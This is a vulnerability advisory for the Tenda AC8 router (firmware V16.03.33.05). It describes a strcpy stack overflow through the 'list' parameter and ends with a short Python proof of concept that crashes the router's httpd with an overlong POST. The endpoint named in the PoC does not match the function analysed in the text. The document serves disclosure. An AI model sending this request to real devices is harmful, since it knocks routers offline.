



# TARGET

- **Device:** Tenda AC8
- **Firmware Version:** V16.03.33.05
- **Vendor Website:** https://www.tendacn.com/
- **Firmware Reference:** AC8v4.0 Firmware - Tenda Global (English)

------

# BUG TYPE

This issue is classified as a **Stack-Based Buffer Overflow Vulnerability**, caused by improper input validation in the router’s HTTP service interface.

# Abstract

A buffer overflow vulnerability exists in the **Tenda AC8 router** running firmware version **V16.03.33.05**.
 The flaw originates from the `formSetQosBand` interface in the embedded `httpd` service, which fails to properly validate user-supplied input in the `list` parameter.

An attacker can exploit this vulnerability by sending a specially crafted HTTP request with an overly long `list` value, potentially leading to  a denial-of-service condition.

------

# Details

## Vulnerability Description

The Tenda AC8 router contains a buffer overflow vulnerability in firmware version **V16.03.33.05**.
 The issue lies in the `formSetQosBand` endpoint, where the `httpd` service does not effectively filter or validate the length of the `list` parameter.

Because input data is not correctly checked, a remote attacker can trigger memory corruption by supplying an excessively long string. This may result in arbitrary code execution or cause the device to crash.

------

## Vulnerability Analysis

Using IDA Pro, the vulnerability can be observed in the `httpd` binary, within the function `formSetQosBand`.





A vulnerability was identified in the function `set_qosMib_list`, which is invoked at line` 14` of the program. 

Further inspection revealed that this function performs unsafe string parsing and copying operations, introducing a potential stack-based buffer overflow condition.

**User-Controlled Input Retrieval**

- The `list` parameter is entirely **user-controlled**

- No effective validation is applied to its length or content

- This allows an attacker to supply arbitrarily long input values

**Unsafe Parsing with `strcpy`**

The vulnerable code uses `strcpy` to parse the input:

```
strcpy(v8, src);
```

As a result, any input exceeding the buffer capacity will cause `strcpy` to write beyond the intended memory boundaries.

# POC

The following proof-of-concept demonstrates how the vulnerability can be triggered:

```
import requests
url = "http://10.10.10.1/goform/SetNetControlList"
data = {
        b'list':'a'*1000
    	}
res = requests.post(url=url,data=data)
print(res.content)
```

## Expected Result

Running the exploit produces a **Segmentation Fault**, indicating that the program attempted to access an invalid memory address. This confirms the presence of a serious memory safety issue.



